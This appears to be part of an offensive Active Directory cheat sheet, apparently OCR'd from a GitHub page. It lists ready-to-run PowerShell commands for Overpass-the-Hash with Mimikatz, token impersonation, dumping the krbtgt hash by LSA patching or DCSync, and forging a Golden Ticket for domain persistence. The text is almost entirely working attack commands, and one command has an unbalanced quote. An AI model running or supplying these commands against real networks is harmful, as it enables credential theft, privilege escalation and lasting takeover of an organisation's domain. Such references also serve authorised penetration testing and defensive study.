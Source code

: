 - Overpass The Hash (Generate tokens from hashes) - make sure to run PowerShell as Administrator

```
PS C:\> Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:<Domain Name> /ntlm:<NTLM hash> /run:powershell.exe"'
```

- Check if the new PowerShell session is running with elevated privileges (whoami will not show this)

```
PS C:\> Invoke-Command -ScriptBlock {whoami} -ComputerName <Domain Controller>
```

### Token Manipulation

- List all the tokens on a machine

```
PS C:\> Invoke-TokenManipulation -ShowAll
```

- List all unique, useable tokens on a machine

```
PS C:\> Invoke-TokenManipulation -Enumerate
```

- Start a new process with token of a specific user

```
PS C:\> Invoke-TokenManipulation -ImpersonateUser -Username "<Domain>\<username>"
```

- Start a new process with token of another process

```
PS C:\> Invoke-TokenManipulation -CreateProcess "C:\Windows\System32\WindowsPowerShell\v1.0\PowerShell.exe -ProcessId 500
```

Domain Persistence
-----------------------------------------

### Golden Ticket

- Execute Mimikatz on DC as Domain Admin to get krbtgt hash

```
PS C:\> Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName <Domain Controller>
```

- Use the DCSync feature as Domain Admin to get the krbtgt hash (no need to run Invoke-Mimikatz on the target DC)

```
PS C:\> Invoke-Mimikatz -Command '"lsadump::dcsync /user:test\krbtgt"'
```

- Use Mimikatz to craft a golden ticket

```
PS C:\> Invoke-Mimikatz -Command '"kerberos::golden /user:<username for which the TGT is generated> /domain:<Domain FQDN> /sid:<Domain SID> /krbtgt:<NTLM (RC4) hash of the krbtgt account. Use /aes128 and /aes256 for using AES keys> id:<optional User RID (default 500)> /groups:<optional Group 513, 512, 520, 518, 519> /startoffset:<optional when the ticket is available (default 0 right now) in minutes. Use negative for a ticket available from past and a larger number for future> /endin:<optional ticket lifetime (default is 10 years) in minutes. The default AD setting is 10 hours = 600 minutes> /renewmax:<optional ticket lifetime with renewal (default is 10 years) in minutes. The default AD setting is 7 days = 100800> /ptt"'
```
